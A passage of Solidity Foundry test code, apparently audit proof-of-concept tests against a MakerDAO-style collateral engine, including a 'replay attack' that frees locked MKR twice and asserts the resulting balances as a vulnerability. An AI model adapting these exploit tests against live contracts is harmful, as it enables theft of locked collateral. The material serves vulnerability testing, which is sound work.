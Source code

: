 ```javascript

        // This assertion shows that the Vat's accounting is now in an inconsistent state
        assertTrue(inkAfter * 2 >= artAfter, "Position appears safe in Vat despite being under-collateralized");

        // But the actual MKR balance shows the true state
        assertTrue(mkrBalanceAfter > initialCollateral - debtAmount, "Actual MKR balance higher than it should be");
    }

    function testReplayAttacks() public {
        uint256 initialCollateral = 100 ether;
        uint256 freeAmount = 50 ether;

        // Setup
        GemLike mkrToken = GemLike(address(engine.mkr()));
        console.log("MKR address used by engine:", address(mkrToken));

        // Mint MKR tokens to the test contract
        vm.prank(address(mkrToken));
        mkrToken.mint(address(this), initialCollateral);

        mkrToken.approve(address(engine), type(uint256).max);

        // Open a new urn
        address urn = engine.open(0);

        engine.lock(urn, initialCollateral, 0);

        uint256 initialMkrBalance = mkrToken.balanceOf(address(this));
        console.log("Initial MKR balance:", initialMkrBalance);

        // First free operation
        uint256 freed1 = engine.free(urn, address(this), freeAmount);
        console.log("First free amount:", freed1);

        // Second free operation
        uint256 freed2 = engine.free(urn, address(this), freeAmount);
        console.log("Second free amount:", freed2);

        uint256 finalMkrBalance = mkrToken.balanceOf(address(this));
        console.log("Final MKR balance:", finalMkrBalance);

        // Assert the vulnerability
        assertGe(freed1 + freed2, initialCollateral, "Should be able to free more than or equal to initially locked");
        assertGe(
            finalMkrBalance,
            initialMkrBalance + initialCollateral,
            "Final MKR balance should be higher than or equal to initial balance plus initial collateral"
        );

        console.log("Initial collateral:", initialCollateral);
        console.log("Total freed:", freed1 + freed2);
        console.log("Initial MKR balance:", initialMkrBalance);
        console.log("Final MKR balance:", finalMkrBalance);
    }

    function testCollateralAccountingVulnerability() public {
        uint256 initialCollateral = 100 ether;
        uint256 freeAmount = 25 ether;

```